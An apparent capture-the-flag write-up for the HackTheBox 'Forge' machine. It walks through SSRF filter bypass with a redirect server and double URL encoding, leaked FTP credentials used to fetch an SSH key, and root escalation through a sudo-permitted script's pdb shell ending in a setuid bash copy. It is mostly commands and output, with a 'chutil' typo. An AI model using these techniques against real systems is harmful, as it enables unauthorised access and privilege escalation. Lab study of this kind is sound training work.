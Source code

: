 > Author: **[NoobHacker9999][author-profile]**

## Discovery

### Port scanning

```bash
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open     http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://forge.htb
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 10.10.11.111; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
PORT      STATE         SERVICE
137/udp   filtered      netbios-ns
21902/udp filtered      unknown
23176/udp filtered      unknown
49173/udp open|filtered unknown
```

### Enumeration

Directories:

```
/uploads              (Status: 301) [Size: 224] [--> http://forge.htb/uploads/]
/upload               (Status: 200) [Size: 929]
/static               (Status: 301) [Size: 307] [--> http://forge.htb/static/]
/server-status        (Status: 403) [Size: 274]
```

Vhost:

```
admin.forge.htb
```

### Web browsing

#### forge.htb

The webserver has a single service: uploading an image. Trying an internet
served image results in:

```
An error occured! Error : HTTPSConnectionPool(host='avatars.githubusercontent.com', port=443): Max retries exceeded with url: /u/31746234?s=280&v=4
(Caused by NewConnectionError('<urllib3.connection.HTTPSConnection object at 0x7f85c3afa490>: Failed to establish a new connection: [Errno -3] Temporary failure in name resolution'))
```

But we can serve an image on the vpn and upload it by URL:

![][successful-upload]

Since the server is making the request, it can reach beyond the filters. IE there's
potential for SSRF.

#### admin.forge.htb

The subdomain `admin.forge.htb` is not reachable:

```
Only localhost is allowed!
```

## Breaking-in the internal services

So we want the server to access the admin page and serve it back to us.

### By setting up a redirect

A service like Bitly doesn't work because the server is not connected to the
internet.

But the following script will redirect the incoming requests to the admin page:

```python
import http.server
import socketserver

class FakeRedirect(http.server.SimpleHTTPRequestHandler):
   def do_GET(self):
       self.send_response(301)
       self.send_header('Location', f'http://admin.forge.htb:80{self.path}')
       self.end_headers()

socketserver.TCPServer(("", 9999), FakeRedirect).serve_forever()
```

Then `http://1.2.3.4:9999/announcements` will be redirected to
`http://admin.forge.htb/announcements`. Since the server only filters the first
request.

### By tricking the blacklist filter

A single URL encoding doesn't fool the filter, but doing it twice:

```bash
curl -i -s -k -X $'POST' -H $'Host: forge.htb' \
    --data-binary $'url=http://%61%64%6d%69%6e%2e%66%6f%72%67%65%2e%68%74%62&remote=1' \
    $'http://forge.htb/upload'
# <strong>URL contains a blacklisted address!</strong>
curl -i -s -k -X $'POST' -H $'Host: forge.htb' \
    --data-binary $'url=http://%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65%25%32%65%25%36%36%25%36%66%25%37%32%25%36%37%25%36%35%25%32%65%25%36%38%25%37%34%25%36%32&remote=1' \
    $'http://forge.htb/upload'
# <h1>
#     <center>
#         <strong>File uploaded successfully to the following url:</strong>
#     </center>
# </h1>
# <h1>
#     <center>
#         <strong><a href="http://forge.htb/uploads/7bwTmsOJJ9vFDVSJAaxW">http://forge.htb/uploads/7bwTmsOJJ9vFDVSJAaxW</strong>
#     </center>
# </h1>
```

### Accessing the internal content

#### Credential leaks

And following the link in the response gives:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```

Doing the same for `admin.forge.htb/annoucements/`:

```html
<ul>
    <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
    <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
    <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
</ul>
```

#### FTP server

The FTP port is filtered from the outside, but the former trick still works with:

```
http://10.10.16.34:9999/upload?u=ftp://user:heightofsecurity123!@10.10.11.111:21/.ssh/id_rsa
```

Try uploading:

```bash
curl -T www/shell.py http://forge.htb/uploads/Rc4dfaCvZ6MlGlxw5Uq9
```

### Scripting

The process has become tedious and is slowing the exploration of the server.
Let's script it:

```bash
redirect=$(curl -i -s -k -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' \
    --data-urlencode "url=http://1.2.3.4:9999/${1}" \
    --data-urlencode "remote=1" \
    $'http://forge.htb/upload' |
    perl -ne 'm#(http://forge.htb/uploads/[a-zA-Z0-9]+)#g && print $1')

curl $redirect
```

Then start the redirection script / server and accessing the FTP becomes easy:

```bash
./tunnel.sh $'upload?u=ftp://user:heightofsecurity123!@10.10.11.111:21/'
```

With this, we can browse & enumerate `admin.forge.htb`: the shared folder is
the home directory of `user` and the SSH key is accessible!

```bash
./tunnel.sh $'upload?u=ftp://user:heightofsecurity123!@10.10.11.111:21/.ssh/id_rsa' > user.id_rsa
```

## Escalation

```bash
sudo -l
# (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```

Here's a choice cut of `/opt/remote-manage.py`:

```python
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
```

The pdb shell runs as root! It can be triggered by sending an invalid option (a character) to
the listening socket:

```python
option = int(clientsock.recv(1024).strip())
```

And from the pdb shell setuid a binary:

```python
import stat, os, shutil
chutil.copyfile("/usr/bin/bash", "/home/user/b")
os.chmod("/home/user/b", stat.S_ISUID |  stat.S_IXUSR | stat.S_IXGRP | stat.S_IXOTH)
```

And run it.

[author-profile]: https://app.hackthebox.eu/users/393721
[blacklist]: images/blacklist.png
[successful-upload]: images/successful-upload.png
